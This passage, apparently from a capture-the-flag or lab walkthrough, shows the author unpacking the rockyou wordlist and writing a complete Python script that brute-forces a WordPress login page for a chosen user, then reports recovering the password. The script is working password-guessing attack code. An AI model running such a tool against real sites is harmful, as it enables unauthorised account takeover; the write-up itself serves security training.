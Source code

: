 Then I developed a brute force tool with python, and used the rockyou wordlist.

```bash
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > wordlist.txt
```

```python
#!/usr/bin/env python3

import requests
import sys
from colorama import init,Fore

if len(sys.argv) != 4:
    print(f"Usage: {sys.argv[0]} [IP] [User] [Wordlist.txt]")
    sys.exit(0)

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

target=sys.argv[1]
user=sys.argv[2]
wordlist=sys.argv[3]

def login(user,passwd):
    values={
            "log":user,
            "pwd":passwd,
            "wp-submit":"Log+In"
            }

    try:
        r=requests.post(f"http://{target}/wordpress/wp-login.php",data=values)
        return r.text
    except:
        pass

wordlist=open(wordlist).read().splitlines()

if __name__=="__main__":
    for password in wordlist:
        ans=login(user,password)
        if "ERROR" in ans:
            print(f"{gray}[-] User: {user} Password: {password:10}{reset}")
        else:
            print(f"{green}[+] User: {user} Password: {password:10}{reset}")
            sys.exit(0)

```
I run the script and after a time we have the password.

